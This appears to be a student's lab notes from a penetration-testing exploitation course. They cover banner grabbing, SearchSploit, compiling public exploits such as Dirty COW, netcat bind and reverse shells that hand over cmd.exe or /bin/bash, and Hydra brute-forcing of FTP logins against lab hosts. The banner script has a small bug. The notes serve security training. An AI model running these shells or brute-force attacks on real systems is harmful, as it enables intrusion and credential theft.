

# Section 3 course 4: Host & Network Penetration Testing: Exploitation


### Table of Contents

- **Vulnerability Scanning**
  - Banner Grabbing    
- **Exploits**
  - Searching For Exploits
  - Cross-Compiling Exploits
- **Shells**
  - netcat
  - Bind Shells
  - Reverse Shells
  - list of shell cheat sheet
- **Frameworks**
  - Exploitation Frameworks
    - The Metasploit Framework (MSF)    
    - PowerShell-Empire    
- **Windows Exploitation**
  - Port Scanning & Enumeration - Windows   
  - Targeting Microsoft IIS FTP     
  - Targeting OpenSSH    
  - Targeting SMB    
  - Targeting MySQL Database Server    

- **Linux Exploitation**
- **Obfuscation**
  - AV Evasion & Obfuscation


---

### Exploitation

+ Exploitation consists of techniques and tools used by adversaries/penetration testers to gain an initial foothold on a target system or network.
+ Successful exploitation will heavily depend on the nature and quality of information gathering and service enumeration performed on the target.
+ We can only exploit a target if we know what is vulnerable - Unknown
+ So far, we have covered exploitation of Windows & Linux systems both manually and automatically, however, we still need to get a clearer picture of the exploitation methodology and the tools and techniques involved in the process.


### **Vulnerability Scanning**

#### Banner Grabbing

+ Banner grabbing is an information gathering technique used by penetration testers to enumerate information regarding the target operating system as well as the services that are running on its open ports.
+ The primary objective of banner grabbing is to identify the service running on a specific port as well as the service version.
+ Banner grabbing can be performed through various techniques:
  + Performing a service version detection scan with Nmap.
  + Connecting to the open port with Netcat.
  + Authenticating with the service (If the service supports authentication), for example; SSH, FTP, Telnet etc.


**1- banner grabbing with `nmap`**

`banner.nse` can be used to identify the actual service banner that it tells what is running on that port 

```bash
root@attackdefense:~# ls -la /usr/share/nmap/scripts/ | grep banner
-rw-r--r-- 1 root root  6129 Jan  9  2019 banner.nse

root@attackdefense:~# nmap 192.207.252.3 --script=banner
Starting Nmap 7.70 ( https://nmap.org ) at 2024-02-07 15:55 UTC
Nmap scan report for target-1 (192.207.252.3)
Host is up (0.000017s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
|_banner: SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6
MAC Address: 02:42:C0:CF:FC:03 (Unknown)
```


**2- banner grabbing with `netcat`**

```bash
root@attackdefense:~# nc 192.207.252.3 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6
```


**3- Fetch pre-login SSH banner**

```bash
root@attackdefense:~# ssh root@192.207.252.3
Welcome to attack defense ssh recon lab!!    <<<<<<<========
root@192.207.252.3's password:
```


---

### Exploits

#### Searching For Exploits

**Searching For Publicly Available Exploits    **

+ After identifying a potential vulnerability within a target or a service running on a target, the next logical step will involve searching for exploit code that can be used to exploit the vulnerability.
+ Exploit code can easily be found online, however, it is important to note that downloading and running exploit code against a target can be quite dangerous. It is therefore recommended to analyze the exploit code closely to ensure that it works as intended.
+ There are a handful of legitimate and vetted exploit databases that you should use when searching for exploits online:
  + [Exploit-db](https://www.exploit-db.com/)
  + [Rapid7](https://www.rapid7.com/db/)


**Searching For Exploits With SearchSploit    **

install exploitdb package. it is installed on kali by default

```bash
root@attackdefense:~# sudo apt-get update && sudo apt-get install exploitdb -y
root@attackdefense:~# searchsploit -u
```


all exploits of exploitdb are available on kali

``` bash
root@attackdefense:~# ls -l /usr/share/exploitdb
total 5744
drwxr-xr-x 63 root root    4096 Feb 19  2020 exploits
-rw-r--r--  1 root root 5714483 Feb 12  2020 files_exploits.csv
-rw-r--r--  1 root root  153537 Feb 12  2020 files_shellcodes.csv
drwxr-xr-x 42 root root    4096 Feb 19  2020 shellcodes
```


search about exploits

```bash
root@attackdefense:~# searchsploit vsftp
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) R | exploits/linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remo | exploits/windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remo | exploits/windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service       | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execut | exploits/unix/remote/17491.rb
--------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result

```


Mirror (aka copies) an exploit to the current working directory.

```bash
root@attackdefense:~# searchsploit -m 17491
  Exploit: vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/17491
     Path: /usr/share/exploitdb/exploits/unix/remote/17491.rb
File Type: Ruby script, ASCII text, with CRLF line terminators

Copied to: /root/17491.rb
```


Perform a case-sensitive search. 

```bash
oot@attackdefense:~# searchsploit -c OpenSSH
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Debian OpenSSH - (Authenticated) Remot | exploits/linux/remote/6094.txt
Dropbear / OpenSSH Server - 'MAX_UNAUT | exploits/multiple/dos/1572.pl
FreeBSD OpenSSH 3.5p1 - Remote Command | exploits/freebsd/remote/17462.txt
Novell Netware 6.5 - OpenSSH Remote St | exploits/novell/dos/14866.txt
OpenSSH 1.2 - '.scp' File Create/Overw | exploits/linux/remote/20253.sh
OpenSSH 2.3 < 7.7 - Username Enumerati | exploits/linux/remote/45210.py
OpenSSH 2.3 < 7.7 - Username Enumerati | exploits/linux/remote/45233.py
OpenSSH 2.x/3.0.1/3.0.2 - Channel Code | exploits/unix/remote/21314.txt
OpenSSH 2.x/3.x - Kerberos 4 TGT/AFS T | exploits/linux/remote/21402.txt
OpenSSH 3.x - Challenge-Response Buffe | exploits/unix/remote/21578.txt
OpenSSH 3.x - Challenge-Response Buffe | exploits/unix/remote/21579.txt
OpenSSH 4.3 p1 - Duplicated Block Remo | exploits/multiple/dos/2444.sh
OpenSSH 6.8 < 6.9 - 'PTY' Local Privil | exploits/linux/local/41173.c
OpenSSH 7.2 - Denial of Service        | exploits/linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth  | exploits/multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration   | exploits/linux/remote/40136.py
OpenSSH < 6.6 SFTP (x64) - Command Exe | exploits/linux_x86-64/remote/45000.c


root@attackdefense:~# searchsploit -c openssh
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
glibc-2.2 / openssh-2.3.0p1 / glibc 2. | exploits/linux/local/258.sh
--------------------------------------- ----------------------------------------
Shellcodes: No Result
-------------------------------- -----------------------------------------------
 Paper Title                    |  Path
                                | (/usr/share/exploitdb-papers/)
-------------------------------- -----------------------------------------------
Roaming Through the OpenSSH Cli | papers/english/39247-roaming-through-the-opens
--------------------------------------------------------------------------------
```


Search with the exploit title

```bash
root@attackdefense:~# searchsploit -t eternalblue    
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Microsoft Windows 7/2008 R2 - 'Eternal | exploits/windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R | exploits/windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64)  | exploits/windows_x86-64/remote/42030.py
--------------------------------------- ----------------------------------------
Shellcodes: No Result
-------------------------------- -----------------------------------------------
 Paper Title                    |  Path
                                | (/usr/share/exploitdb-papers/)
-------------------------------- -----------------------------------------------
How to Exploit ETERNALBLUE and  | docs/english/41896-how-to-exploit-eternalblue-
How to Exploit ETERNALBLUE on W | docs/english/42280-how-to-exploit-eternalblue-
[Spanish] How to Exploit ETERNA | docs/spanish/41897-[spanish]-how-to-exploit-et
[Spanish] How to Exploit ETERNA | docs/spanish/42281-[spanish]-how-to-exploit-et
-------------------------------- -----------------------------------------------
```


----

#### Cross-Compiling Exploits

+ In certain cases, exploit code will be developed in C/C++/C#, as a result, you will need to compile the exploit code in to a PE (Portable Executable) or binary.
+ Cross-Compiling is the process of compiling code for a platform other than the one performing the compilation.
+ As a penetration tester, you will need to have the skills necessary to compile exploit code developed in C.
+ It 's recommended to compile the exploits as 32-bit to run at both 32-bit and 64-bit systems 
+ [exploitdb bin sploits](https://gitlab.com/exploit-database/exploitdb-bin-sploits) list of pre compiled binaries


```bash
root@attackdefense:~# sudo apt-get install mingw-w64
root@attackdefense:~# sudo apt-get install gcc
```


**Compile the exploit of [VideoLAN VLC Media Player 0.8.6f](https://www.exploit-db.com/exploits/9303)**

get the exploit

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit -m 9303  
```


compile for 64-bit systems

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ i686-w64-mingw32-gcc 9303.c -o 9303
```


compile for 32-bit systems

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ i686-w64-mingw32-gcc 9303.c -o 9303_x86 -lws2_32
```


**Compile the exploit of [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW'](https://www.exploit-db.com/exploits/40839)**

get the exploit

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit -m 40839   
```


compile the exploit

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$  gcc -pthread 40839.c -o dirty -lcrypt
```


---

### Shells

**Netcat Fundamentals   **

+ Netcat (Aka TCP/IP Swiss Army Knife) is a networking utility used to read and write data to network connections using TCP or UDP.
+ Netcat is available for both *NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements.
+ Netcat utilizes a client-server communication architecture with two modes:
+ Client mode - Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server).
+ Server mode - Netcat can be used to listen for connections from clients on a specific port.
+ Netcat can be used by penetration testers to perform the following functionality:
  + Banner Grabbing
  + Port Scanning
  + Transferring Files
  + Bind/Reverse Shells


**connect to a tcp port**

```bash
root@attackdefense:~# nc -nv 10.4.23.171 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.4.23.171:80.
```


**connect to a udp port**

```bash
root@attackdefense:~# nc -nvu 10.4.23.171 139
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.4.23.171:139.
```


**setup netcat listener**

```bash
root@attackdefense:/usr/share/windows-binaries# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.4.23.171.
Ncat: Connection from 10.4.23.171:49586.
hello from windows
hello from linux
```


**connect to the listening port** 

```cmd
C:\Users\Administrator\Desktop>nc.exe -nv 10.10.80.4 1234
(UNKNOWN) [10.10.80.4] 1234 (?) open
hello from windows
hello from linux
^C
```


**setup netcat listener on udp port**

```bash
root@attackdefense:/usr/share/windows-binaries# nc -nvulp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.4.23.171.
hello from udp
connected on 1234 udp
```


**connect to the listening udp port** 

```cmd
C:\Users\Administrator\Desktop>nc.exe -nvu 10.10.80.4 1234
(UNKNOWN) [10.10.80.4] 1234 (?) open
hello from udp
connected on 1234 udp
^C
```


**Transfer files between systems**

the system you want to transfer the file to needs to have the netcat listener setup, and the system that is sending the file will be connecting to that netcat listener

**send a file from kali to windows**

setup listener on windows

```cmd
C:\Users\Administrator\Desktop>nc.exe -nvlp 1234 > text.txt
listening on [any] 1234 ...
connect to [10.4.24.154] from (UNKNOWN) [10.10.80.2] 37426
```


connect to the listening port from kali

```bash
root@attackdefense:~# nc -nv 10.4.24.154 1234 < text.txt 
```


---

#### Bind Shells

+ A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, consequently allowing for execution of commands on the target system.
+ A Netcat listener can be setup to execute a specific executable like cmd.exe or /bin/bash when a client connects to the listener.


#### bind shell between windows and kali

**setup a listener** 

```cmd
C:\Users\Administrator\Desktop>nc.exe -nvlp 1234 -e cmd.exe
listening on [any] 1234 ...
connect to [10.4.18.81] from (UNKNOWN) [10.10.80.2] 46142
```

whenever a client connects to this listener, cmd.exe will be executed and the attacker will provided with the command shell


**connect to the listener to get the command shell**

```bash
root@attackdefense:~# nc -nv 10.4.18.81 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.4.18.81:1234.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
win-omcnbkr66mn\administrator
```


#### bind shell between linux and kali

**setup a listener** 

```bash
root@attackdefense:~# nc -nvlp 1234 -c /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.80.2.
Ncat: Connection from 10.10.80.2:35192.
```


**connect to the listener to get the command shell**

```bash
root@attackdefense:~# nc -vn 10.10.80.2 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.80.2:1234.

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
```


---

#### Reverse Shells

+ A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker’s system, consequently allowing for execution of commands on the target system.


#### Reverse shell between windows and kali

**setup a listener** 

```cmd
root@attackdefense:~# nc -nvlp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Connected to 10.4.18.81:1234.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>whoami
whoami
win-omcnbkr66mn\administrator
```


**connect to the listener to get the command shell**

```bash
C:\Users\Administrator\Desktop>nc.exe -nv 10.4.18.81 1234 -e cmd.exe
listening on [any] 1234 ...
connect to [10.4.18.81] from (UNKNOWN) [10.10.80.2] 46142
```


#### Reverse shell between linux and kali

**setup a listener** 

```bash
root@attackdefense:~# nc -nvlp 1234 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
```


**connect to the listener to get the command shell**

```bash
root@attackdefense:~# nc -vn 10.10.80.2 1234 -e /bin/bash 
Ncat: Connection from 10.10.80.2.
Ncat: Connection from 10.10.80.2:35192.
```


---

#### list of shell cheat sheet

- [Bind Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/)
- [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)
- [Reverse Shell Generator](https://www.revshells.com/)


---

### Frameworks

#### Exploitation Frameworks

#### 1- The Metasploit Framework (MSF)    

+ The Metasploit Framework (MSF) is an open-source, robust penetration testing and exploitation framework that is used by penetration testers and security researchers worldwide.
+ It provides penetration testers with a robust infrastructure required to automate every stage of the penetration testing life cycle.
+ It is also used to develop and test exploits and has one of the world’s largest database of public, tested exploits.
+ The Metasploit Framework is designed to be modular, allowing for new functionality to be implemented with ease.


#### 2- PowerShell-Empire    

+ PowerShell-Empire (Aka Empire) is a pure PowerShell exploitation/postexploitation framework built on cryptological-secure communications and flexible architecture.
+ Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from keyloggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.
+ PowerShell Empire recently received an update and is now officially support and maintained by Kali Linux, more information regarding the update can be found here: https://www.kali.org/blog/empire-starkiller/


**Starkiller**

+ In addition to being updated and modernized, BC Security, the company responsible for maintaining the Empire has also developed a companion to Empire called Starkiller.
+ Starkiller is a GUI Frontend for the Powershell Empire. It is an Electron application written in VueJS and provides users with an intuitive way of interacting with Empire.
+ In order to get an understanding of how Empire works and the components that make up the framework, I would recommend going through the official documentation which can be found here: https://www.powershellempire.com/
+ PowerShell-Empire & Starkiller are both available as packages in the Kali Linux repositories.


**install powershell-empire and starkiller**

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# sudo apt-get update && sudo apt install powershell-empire starkiller -y
```


**start up powershell-empire server**

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# powershell-empire server
```


**connect to powershell-empire**

```bash
┌──(root㉿kali)-[/home/kali]
└─# powershell-empire client
```


**[How to use PowerShell  Empire ](https://www.hackingarticles.in/hacking-with-empire-powershell-post-exploitation-agent/)**

---

#### Windows Exploitation


**Black Box Pentest**

+ A Black box penetration test is a security assessment whereby the penetration tester is not provided with any information regarding the target
system or network (No IP ranges, system information or default credentials are provided).
+ The objective of a Black box penetration test is to accurately test the security of a system or network as an external unprivileged adversary.
+ This approach is very useful as it demonstrates how an external attacker with no inside knowledge would compromise a company’s systems or networks.


#### Port Scanning & Enumeration - Windows    

get the target ip from hosts file

```bash
root@attackdefense:~# cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.19       attackdefense.com attackdefense
127.0.0.1 AttackDefense-Kali
10.10.4.4       attackdefense.com attackdefense
10.4.30.28    demo.ine.local
```


list of nmap scans you should perform to enumerate open ports 

```bash
root@attackdefense:~# nmap 10.4.30.28
root@attackdefense:~# nmap 10.4.30.28 -A
root@attackdefense:~# nmap 10.4.30.28 -T4 -sC -p-
root@attackdefense:~# nmap 10.4.30.28 -sU -sV
```


output of nmap scans

```bash
root@attackdefense:~# nmap 10.4.30.28
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-11 20:31 IST
Nmap scan report for demo.ine.local (10.4.30.28)
Host is up (0.0089s latency).
Not shown: 992 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown

========================================================================================================================
root@attackdefense:~# nmap 10.4.30.28 -sV
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-11 20:32 IST
Nmap scan report for demo.ine.local (10.4.30.28)
Host is up (0.0091s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
22/tcp    open  ssh          OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http         Microsoft IIS httpd 7.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql        MySQL 5.5.20-log
9200/tcp  open  wap-wsp?
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC


========================================================================================================================
root@attackdefense:~# nmap 10.4.30.28 -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-11 20:35 IST
Nmap scan report for demo.ine.local (10.4.30.28)
Host is up (0.0089s latency).
Not shown: 65504 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1617/tcp  open  nimrod-agent
3306/tcp  open  mysql
3389/tcp  open  ms-wbt-server
3700/tcp  open  lrs-paging
4848/tcp  open  appserv-http
5985/tcp  open  wsman
7676/tcp  open  imqbrokerd
8080/tcp  open  http-proxy
8181/tcp  open  intermapper
8484/tcp  open  unknown
8585/tcp  open  unknown
8686/tcp  open  sun-as-jmxrmi
9200/tcp  open  wap-wsp
9300/tcp  open  vrace
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49190/tcp open  unknown
49214/tcp open  unknown
49215/tcp open  unknown
49216/tcp open  unknown
49258/tcp open  unknown
49259/tcp open  unknown


========================================================================================================================
root@attackdefense:~# nmap 10.4.30.28 -A
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-11 20:36 IST
Nmap scan report for demo.ine.local (10.4.30.28)
Host is up (0.0088s latency).
Not shown: 983 closed tcp ports (reset)
PORT      STATE SERVICE              VERSION
21/tcp    open  ftp                  Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
| ssh-hostkey: 
|   2048 83:56:2e:69:b5:2d:b4:9a:e4:7f:97:86:d8:bc:ae:7b (RSA)
|_  521 c0:e2:da:9d:e2:1e:58:09:7e:80:07:ec:3e:b4:57:f5 (ECDSA)
80/tcp    open  http                 Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds
3306/tcp  open  mysql                MySQL 5.5.20-log
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.20-log
|   Thread ID: 6
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, SupportsCompression, Speaks41ProtocolOld, SupportsLoadDataLocal, ODBCClient, LongPassword, IgnoreSpaceBeforeParenthesis, SupportsTransactions, DontAllowDatabaseTableColumn, InteractiveClient, LongColumnFlag, FoundRows, ConnectWithDatabase, Speaks41ProtocolNew, IgnoreSigpipes, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: F>Bn){SmMt%U\P\^DxOc
|_  Auth Plugin Name: mysql_native_password
3389/tcp  open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: VAGRANT-2008R2
|   NetBIOS_Domain_Name: VAGRANT-2008R2
|   NetBIOS_Computer_Name: VAGRANT-2008R2
|   DNS_Domain_Name: vagrant-2008R2
|   DNS_Computer_Name: vagrant-2008R2
|   Product_Version: 6.1.7601
|_  System_Time: 2024-02-11T15:08:38+00:00
| ssl-cert: Subject: commonName=vagrant-2008R2
| Not valid before: 2024-02-10T15:02:04
|_Not valid after:  2024-08-11T15:02:04
|_ssl-date: 2024-02-11T15:08:52+00:00; 0s from scanner time.
4848/tcp  open  ssl/http             Oracle Glassfish Application Server
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
| http-title: Login
|_Requested resource was https://demo.ine.local:4848/
|_http-server-header: GlassFish Server Open Source Edition  4.0 
|_ssl-date: 2024-02-11T15:08:52+00:00; 0s from scanner time.
7676/tcp  open  java-message-service Java Message Service 301
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.0
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-title: Site doesn't have a title (text/html).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: GlassFish Server Open Source Edition  4.0 
8181/tcp  open  ssl/intermapper?
|_ssl-date: 2024-02-11T15:08:52+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=localhost/organizationName=Oracle Corporation/stateOrProvinceName=California/countryName=US
| Not valid before: 2013-05-15T05:33:38
|_Not valid after:  2023-05-13T05:33:38
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 11 Feb 2024 15:07:13 GMT
|     Content-Type: text/html
|     Connection: close
|     Content-Length: 4626
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
|     <html lang="en">
|     <!--
|     ALTER OR REMOVE COPYRIGHT NOTICES OR THIS HEADER.
|     Copyright (c) 2010, 2013 Oracle and/or its affiliates. All rights reserved.
|     subject to License Terms
|     <head>
|     <style type="text/css">
|     body{margin-top:0}
|     body,td,p,div,span,a,ul,ul li, ol, ol li, ol li b, dl,h1,h2,h3,h4,h5,h6,li {font-family:geneva,helvetica,arial,"lucida sans",sans-serif; font-size:10pt}
|     {font-size:18pt}
|     {font-size:14pt}
|     {font-size:12pt}
|     code,kbd,tt,pre {font-family:monaco,courier,"courier new"; font-size:10pt;}
|     {padding-bottom: 8px}
|     p.copy, p.copy a {font-family:geneva,helvetica,arial,"lucida sans",sans-serif; font-size:8pt}
|     p.copy {text-align: center}
|     table.grey1,tr.grey1,td.g
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     Allow: GET
|     Date: Sun, 11 Feb 2024 15:07:14 GMT
|     Connection: close
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 505 HTTP Version Not Supported
|     Date: Sun, 11 Feb 2024 15:07:14 GMT
|     Connection: close
|_    Content-Length: 0
9200/tcp  open  wap-wsp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=UTF-8
|     Content-Length: 80
|     handler found for uri [/nice%20ports%2C/Tri%6Eity.txt%2ebak] and method [GET]
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: application/json; charset=UTF-8
|     Content-Length: 305
|     "status" : 200,
|     "name" : "Shard",
|     "version" : {
|     "number" : "1.1.1",
|     "build_hash" : "f1585f096d3f3985e73456debdc1a0745f512bbc",
|     "build_timestamp" : "2014-04-16T14:27:12Z",
|     "build_snapshot" : false,
|     "lucene_version" : "4.7"
|     "tagline" : "You Know, for Search"
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; charset=UTF-8
|     Content-Length: 0
|   RTSPRequest, SIPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/plain; charset=UTF-8
|_    Content-Length: 0
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC
49155/tcp open  msrpc                Microsoft Windows RPC

```


bash script code to automate banner grabbing for all open ports

```bash
#!/bin/bash

# Check if IP address is provided as arguments
if [ $# -ne 1 ]; then
    echo "Usage: $0 <IP_ADDRESS>"
    exit 1
fi


file="/root/ports.txt" # file contains list of open ports on the victim 

while read -r port
do
        echo banner grabbing on port $port
        echo | nc -w 1 $1 $line
#       nmap $1 -sV --script=banner -p $port
done < "$file"

```


---

#### Targeting Microsoft IIS FTP    

**check if anonymous login is allowed**

```bash
root@attackdefense:~# ftp 10.4.31.186
Connected to 10.4.31.186.
220 Microsoft FTP Service
Name (10.4.31.186:root): anonymous
331 Password required for anonymous.
Password: 
530 User cannot log in.
ftp: Login failed
ftp> bye
221 Goodbye.
```


**bruteforce ftp credentials with hydra**

```bash
root@attackdefense:~# hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://10.4.31.186
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-11 21:51:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://10.4.31.186:21/
[STATUS] 4275.00 tries/min, 4275 tries in 00:01h, 2788 to do in 00:01h, 16 active
[21][ftp] host: 10.4.31.186   login: administrator   password: vagrant


root@attackdefense:~# hydra -l vagrant -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://10.4.31.186
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-11 21:59:42
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ftp://10.4.31.186:21/
[21][ftp] host: 10.4.31.186   login: vagrant   password: vagrant
```

**Note: ** FTP credentials are actually user accounts on the system   


**login with ftp credentials**

```bash
root@attackdefense:~# ftp 10.4.31.186
Connected to 10.4.31.186.
220 Microsoft FTP Service
Name (10.4.31.186:root): administrator
331 Password required for administrator.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49352|)
